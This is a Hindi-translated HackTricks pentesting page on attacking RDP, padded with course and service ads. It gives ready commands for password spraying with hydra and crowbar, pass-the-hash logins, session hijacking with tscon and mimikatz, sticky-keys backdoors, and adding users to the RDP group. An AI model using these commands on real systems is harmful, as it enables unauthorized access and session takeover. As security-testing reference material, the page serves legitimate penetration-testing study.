 # 3389 - पेंटेस्टिंग RDP

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**त्वरित उपलब्ध सेटअप व्यक्तिगतता मूल्यांकन और पेनेट्रेशन टेस्टिंग**। कहीं से भी 20+ टूल और सुविधाओं के साथ पूर्ण पेंटेस्ट चलाएं जो पुनरीक्षण से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स को बदलने नहीं हैं - हम उन्हें वापस कुछ समय देने के लिए कस्टम टूल, पहचान और शोषण मॉड्यूल विकसित करते हैं ताकि वे गहराई में खोज करने, शैल्स पॉप करने और मज़ा करने में समर्थ हों।

{% embed url="https://pentest-tools.com/" %}

## मौलिक जानकारी

माइक्रोसॉफ्ट द्वारा विकसित, **रिमोट डेस्कटॉप प्रोटोकॉल** (**RDP**) एक ग्राफिकल इंटरफेस कनेक्शन स्थापित करने के लिए डिज़ाइन किया गया है जो कंप्यूटरों के बीच नेटवर्क पर होता है। इस प्रक्रिया को स्थापित करने के लिए उपयोगकर्ता द्वारा **RDP** क्लाइंट सॉफ़्टवेयर का उपयोग किया जाता है, और साथ ही, दूरस्थ कंप्यूटर को **RDP** सर्वर सॉफ़्टवेयर का उपयोग करना होता है। यह सेटअप एक दूरस्थ कंप्यूटर के डेस्कटॉप वातावरण का संवाहन और पहुंच संभव बनाता है, मुख्य रूप से उपयोगकर्ता के स्थानीय उपकरण पर इसके इंटरफेस को लाने के लिए।

**डिफ़ॉल्ट पोर्ट:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## जाँच

### स्वचालित

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

यह उपलब्ध एन्क्रिप्शन और डीओएस संवर्धन (सेवा को डीओएस कारणित किए बिना) की जांच करता है और एनटीएलएम विंडोज जानकारी (संस्करण) प्राप्त करता है।

### [ब्रूट फोर्स](../generic-methodologies-and-resources/brute-force.md#rdp)

**सावधान रहें, आप खाते लॉक कर सकते हैं**

### **पासवर्ड स्प्रेइंग**

**सावधान रहें, आप खाते लॉक कर सकते हैं**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### ज्ञात क्रेडेंशियल/हैश के साथ कनेक्ट करें
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### ज्ञात क्रेडेंशियल को आरडीपी सेवाओं के खिलाफ जांचें

rdp\_check.py impacket से आपको यह जांचने की अनुमति देता है कि क्या कुछ क्रेडेंशियल आरडीपी सेवा के लिए मान्य हैं:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**विकर्षण मूल्यांकन और पेनेट्रेशन टेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। 20+ टूल और विशेषताएं के साथ किसी भी स्थान से पूर्ण पेनटेस्ट चलाएं जो पुनरीक्षण से रिपोर्टिंग तक जाता है। हम पेनटेस्टर्स को बदलने नहीं देते - हम उन्हें वापस कुछ समय देने के लिए कस्टम टूल, पहचान और शोषण मॉड्यूल विकसित करते हैं ताकि वे गहराई में खोज करने, शैल्स पॉप करने और मज़ा करने में समर्थ हों।

{% embed url="https://pentest-tools.com/" %}

## **हमले**

### सत्र चुराना

**SYSTEM अनुमतियों** के साथ आप किसी भी उपयोगकर्ता द्वारा खोली गई RDP सत्र तक पहुंच सकते हैं बिना मालिक के पासवर्ड जानने की आवश्यकता के।

**खुली सत्र प्राप्त करें:**
```
query user
```
**चयनित सत्र का उपयोग**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
अब आप चयनित RDP सत्र में होंगे और आपको केवल Windows उपकरण और सुविधाओं का उपयोग करके उपयोगकर्ता का अनुकरण करना होगा।

**महत्वपूर्ण**: जब आप सक्रिय RDP सत्र में पहुंचते हैं, तो आप उपयोगकर्ता को बाहर कर देंगे जो इस्तेमाल कर रहा था।

आप प्रक्रिया डंपिंग से पासवर्ड प्राप्त कर सकते हैं, लेकिन यह विधि बहुत तेज है और आपको उपयोगकर्ता के वर्चुअल डेस्कटॉप के साथ बातचीत करने की अनुमति देती है (पासवर्ड नोटपैड में, डिस्क में सहेजे बिना, अन्य RDP सत्र अन्य मशीनों में खोले गए...)

#### **Mimikatz**

आप इसे करने के लिए मिमीकैट्ज का भी उपयोग कर सकते हैं:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

किसी भी समय **एडमिनिस्ट्रेटिव CMD और किसी भी RDP सत्र में पहुंचने** की क्षमता होगी जब आप इस तकनीक को **stickykeys** या **utilman के साथ मिलाते हैं।

आप इस तकनीक के साथ पहले से ही backdoored किए गए RDPs को खोज सकते हैं: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

अगर कोई अलग डोमेन से या **बेहतर प्रिविलेज के साथ RDP के माध्यम से लॉगिन** करता है तो जिस PC पर **आप एडमिन हैं**, तो आप उसके **RDP सत्र प्रक्रिया** में अपना बीकन इंजेक्ट कर सकते हैं और उसके रूप में कार्य कर सकते हैं:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## स्वचालित उपकरण

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** एक पोस्ट-घातक फ्रेमवर्क है जो Powershell में बनाया गया है, मुख्य रूप से Microsoft Windows कंप्यूटर पर **Shadow** हमले को स्वचालित करने के लिए डिज़ाइन किया गया है। यह कमजोरी (Microsoft द्वारा एक विशेषता के रूप में सूचीबद्ध) एक दूरस्थ हमलावर को अपने पीड़ित के डेस्कटॉप को बिना उसकी सहमति के **देखने** की अनुमति देती है, और यहाँ तक कि उसे आवश्यकता होने पर इसे नियंत्रित करने की अनुमति देती है, ऑपरेटिंग सिस्टम स्वयं के उपकरणों का उपयोग करके।

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* कमांड लाइन से एक स्वचालित तरीके से माउस और कीबोर्ड को नियंत्रित करें
* कमांड लाइन से क्लिपबोर्ड को नियंत्रित करें
* एक SOCKS प्रॉक्सी को क्लाइंट से उत्पन्न करें जो नेटवर्क संचार को RDP के माध्यम से लक्ष्य तक चैनल करता है
* लक्ष्य पर विचित्र SHELL और PowerShell कमांड्स को बिना फ़ाइलें अपलोड किए उत्पन्न करें
* लक्ष्य से फ़ाइलें अपलोड और डाउनलोड करें, यहाँ तक कि जब फ़ाइल स्थानीय तरफ पर अक्षम हों।
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**सुरक्षा मूल्यांकन और पेनेट्रेशन टेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। 20+ टूल और विशेषताएं के साथ कहीं से भी पूर्ण पेनटेस्ट चलाएं जो पुनरीक्षण से रिपोर्टिंग तक जाते हैं। हम पेनटेस्टर्स को बदलने नहीं जाते - हम उन्हें वापस कुछ समय देने के लिए कस्टम टूल, पहचान और शोषण मॉड्यूल विकसित करते हैं ताकि वे गहराई में खोज करने, शैल्स पॉप करने और मज़ा करने में समय बिता सकें।

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
